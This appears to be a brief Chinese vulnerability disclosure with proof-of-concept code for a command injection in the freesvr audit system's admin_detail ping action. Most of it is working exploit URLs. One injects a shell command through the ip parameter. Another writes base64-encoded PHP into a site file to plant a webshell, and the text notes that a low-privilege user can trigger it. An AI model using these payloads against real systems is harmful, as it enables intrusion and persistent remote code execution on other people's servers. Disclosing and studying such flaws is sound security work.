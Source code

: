 在/opt/freesvr/web/htdocs/freesvr/audit/controller/c_admin_detail.class.php文件中有如下函数
![](./image.png)
使用curl进行利用：
curl -i -k https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20touch%20/tmp/1%20%23
通过get_request从url中获取到ip参数，而后直接拼接到命令行中，随后通过exec函数执行。访问该路径需要身份认证，但经过测试最低权限的运维用户即可利用

![](./image2.png)


也可以在php文件内植入webshell：此处在/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php内写入phpinfo();
https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20echo%20Cjw/cGhwCnBocGluZm8oKTsKPz4=%20|%20base64%20-d%20|%20tee%20-a%20/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php%20%23
 
![](image-1.png)
 
![](image-2.png)

![alt text](image-3.png)